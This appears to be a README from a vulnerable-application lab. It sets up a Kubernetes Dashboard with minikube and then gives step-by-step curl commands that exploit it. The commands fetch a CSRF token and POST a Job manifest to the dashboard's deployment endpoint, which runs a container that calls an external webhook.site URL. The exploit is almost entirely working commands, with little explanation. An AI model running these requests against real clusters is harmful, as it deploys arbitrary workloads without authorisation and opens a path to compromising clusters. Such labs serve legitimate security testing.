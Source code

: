 # Vulnerable Kubernetes Dashboard
we need docker to run the vulnerable kubernetes dashboard
```bash
curl -Lo minikube https://github.com/kubernetes/minikube/releases/download/v1.36.0/minikube-linux-amd64
chmod +x minikube
./minikube start
./minikube dashboard  --port=8100
```
Ref: https://minikube.sigs.k8s.io/docs/start/?arch=%2Flinux%2Fx86-64%2Fstable%2Fbinary+download#Service

Ref: https://minikube.sigs.k8s.io/docs/handbook/dashboard/

## Exploitation steps
1. Start the vulnerable kubernetes dashboard
2. Get the port number of the kubernetes dashboard service and replace it in the curl commands below
```bash
# we need to get a fresh csrf token
curl 'http://127.0.0.1:8100/api/v1/namespaces/kubernetes-dashboard/services/http:kubernetes-dashboard:/proxy/api/v1/csrftoken/appdeploymentfromfile' \
  --compressed \
  -H 'Accept: application/json, text/plain, */*' \
#  {
# "token": "TIM-HcANnZ3XwpXVB9D745jtuYo:1753310053154"
#  }


# Change the old CSRF token(X-CSRF-TOKEN) to create a job
# Change the curl -s .... command to your webhook URL
curl 'http://127.0.0.1:8100/api/v1/namespaces/kubernetes-dashboard/services/http:kubernetes-dashboard:/proxy/api/v1/appdeploymentfromfile' \
  --compressed \
  -X POST \
  -H 'X-CSRF-TOKEN: TIM-HcANnZ3XwpXVB9D745jtuYo:1753310053154' \
  -H 'Content-Type: application/json' \
  --data-raw '{"name":"","namespace":"default","content":"apiVersion: batch/v1\nkind: Job\nmetadata:\n  name: curl-job\n  labels:\n    app: curl-example\nspec:\n  template:\n    metadata:\n      labels:\n        app: curl-example\n    spec:\n      containers:\n      - name: curl-container\n        image: curlimages/curl:latest\n        command: [\"/bin/sh\", \"-c\"]\n        args:\n        - ^|\n          curl -s https://webhook.site/0725a73b-854d-431f-92ae-de61dcfc2d57 ^|^| exit 0\n      restartPolicy: OnFailure\n  backoffLimit: 3\n  completions: 1","validate":true}'
  
```